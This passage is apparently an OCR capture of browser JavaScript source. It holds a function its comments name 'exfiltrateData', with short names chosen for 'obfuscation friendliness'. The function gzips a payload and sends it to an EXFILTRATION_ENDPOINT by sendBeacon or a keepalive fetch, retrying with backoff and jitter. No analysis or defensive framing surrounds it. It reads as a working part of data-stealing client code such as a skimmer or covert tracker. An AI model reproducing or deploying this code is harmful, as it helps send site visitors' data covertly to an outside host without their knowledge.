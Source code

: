                 return d;
            }

            // --- Exfiltration Logic (shorthands for obfuscation friendliness) ---
            async function eD(p, rc = 0) { // eD = exfiltrateData, p = payload, rc = retryCount
                if (!p) { return false; }

                let cp; // cp = compressedPayload
                try {
                    cp = pako.gzip(new TextEncoder().encode(JSON.stringify(p))); // Using pako.gzip directly
                } catch (e) {
                    rE(e, {src: 'payloadComp', rc: rc});
                    cp = new TextEncoder().encode(JSON.stringify(p)); // Fallback to uncompressed byte array
                }

                let s = false; // s = success

                try {
                    const b = new Blob([cp], { type: 'application/octet-stream' }); // b = blob
                    
                    if (navigator.sendBeacon) {
                        s = navigator.sendBeacon(EXFILTRATION_ENDPOINT, b);
                        if (!s) { // If sendBeacon fails to queue (e.g., due to a full buffer or security concerns)
                            s = await fWR(EXFILTRATION_ENDPOINT, { method: 'POST', headers: { 'Content-Type': 'application/octet-stream', 'Content-Encoding': 'gzip' }, body: b, keepalive: true }, rc);
                        }
                    } else { // Fallback to fetch with keepalive if sendBeacon is unavailable
                        s = await fWR(EXFILTRATION_ENDPOINT, { method: 'POST', headers: { 'Content-Type': 'application/octet-stream', 'Content-Encoding': 'gzip' }, body: b, keepalive: true }, rc);
                    }
                } catch (e) {
                    rE(e, {src: 'exfilAttempt', rc: rc});
                    s = false;
                }

                if (!s && rc < MAX_RETRIES) {
                    const delay = Math.min(BASE_RETRY_DELAY_MS * Math.pow(2, rc), 60000) + Math.random() * BASE_RETRY_DELAY_MS; // Max 60s + jitter
                    setTimeout(() => eD(p, rc + 1), delay);
                } else if (!s && rc >= MAX_RETRIES) {
                    rE(new Error('Max Retries Exceeded'), {src: 'exfilPermanentFail', payloadId: p.sid});
                }
                return s;
            }

            async function fWR(u, o, rc) { // fWR = fetchWithRetry, u = url, o = options, rc = retryCount
                try {
                    const res = await fetch(u, o); // res = response
                    if (!res.ok) { rE(new Error(`Fetch not OK: ${res.status} ${res.statusText}`), {src: 'fetchFailStatus', rc: rc, status: res.status}); return false; }
                    return true; 
                } catch (e) {
                    rE(e, {src: 'fetchError', rc: rc, url: u});
                    return false; 
                }
            }
